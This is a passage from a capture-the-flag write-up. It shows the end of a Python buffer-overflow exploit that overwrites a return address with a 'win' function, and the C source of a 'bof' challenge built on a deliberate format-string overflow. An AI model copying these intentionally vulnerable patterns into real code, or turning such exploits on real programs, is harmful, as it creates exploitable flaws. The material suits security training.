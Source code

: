 ```python
#
WIN = 0x4011d6

payload = b"A"*16 # fill up buf[16]
payload += b"A"*8 # fill up saved rbp [8]
payload += p64(WIN) # write win to return address, remember to pack address in 64 bit little endian

p.sendline(payload) # send payload to program

p.interactive() # get flag!!
```

## bof (100 pts) - 190 solves
---

>
> Can you bof me?
> Author: Eth007
> 
> [bof](attachments/pwn/bof/bof) [bof.c](attachments/pwn/bof/bof.c) 
>

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);                        // input of 5 bytes
  sprintf(str.buf, temp);                       // output of format string is written to str.buf
                                                // we need to write >64 chars into str.buf to overflow check

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```
